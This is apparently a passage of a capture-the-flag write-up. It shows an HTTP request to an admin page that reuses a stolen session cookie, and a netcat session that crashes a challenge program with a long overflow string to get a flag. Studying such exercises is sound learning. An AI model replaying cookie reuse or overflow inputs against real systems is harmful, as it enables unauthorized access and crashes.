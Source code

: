 Alternative, but requires cookie anyway:

```
GET /admin HTTP/1.1
Host: govagriculture.web.ctfcompetition.com
Cookie: session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV


```

```
HTTP/1.1 200 OK
Content-Type: text/plain
Vary: Accept-Encoding
X-Appengine-Log-Flush-Count: 0
X-Cloud-Trace-Context: 998104ef522da181e8360ab9035eb6ab
Date: Sun, 23 Jun 2019 13:24:12 GMT
Server: Google Frontend
Content-Length: 37

CTF{8aaa2f34b392b415601804c2f5f0f24e}
```

**Flag**: `CTF{8aaa2f34b392b415601804c2f5f0f24e}`



## day4-easiest
**STOP GAN (bof)**  `[pwn]` **–TODO–**

The second flag remains unsolved.

```
$ nc buffer-overflow.ctfcompetition.com 1337
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
 Bonus flag for controlling the crash.

Console commands: 
run
quit
>>run
Inputs: run
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
CTF{Why_does_cauliflower_threaten_us}
Cauliflower systems never crash >>
segfault detected! ***CRASH***
```

**Flag**: `CTF{Why_does_cauliflower_threaten_us}` 



## day5-easier
**Cookie World Order** `[web]`
